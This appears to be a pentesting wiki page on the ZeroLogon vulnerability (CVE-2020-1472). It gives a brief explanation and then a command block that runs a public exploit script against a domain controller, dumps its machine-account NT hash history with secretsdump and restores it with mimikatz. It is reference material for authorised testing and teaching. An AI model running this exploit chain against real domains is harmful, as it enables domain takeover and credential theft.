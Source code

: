 # ZeroLogon \(CVE-2020-1472\)

## Theory

This attack exploits an insecure customized cryptographic protocol in the NTLM protocol. It allows attackers to change the password of the domain controller computer account, hence giving those attackers domain admin privileges.

## Practice

This exploit changes the NT hash of the domain controller computer account in the Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent denial of service, attackers can exploit the CVE, find the NT hash of the domain controller machine account before it was changed, and set it back in the AD.

```bash
# Exploit the CVE (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
python3 cve-2020-1472-exploit.py $DC_name $DC_IP

# (secretsdump) Find the old NT hash of the DC
secretsdump -history -just-dc-user 'DC_name$' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_name$@DC.DOMAIN'

# (mimikatz) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'DC.DOMAIN'  /user:'DC_name$' /oldntlm:31d6cfe0d16ae931b73c59d7e0c089c0 /newntlm:<old nt hash>
```

## References

{% embed url="https://www.secura.com/blog/zero-logon" %}



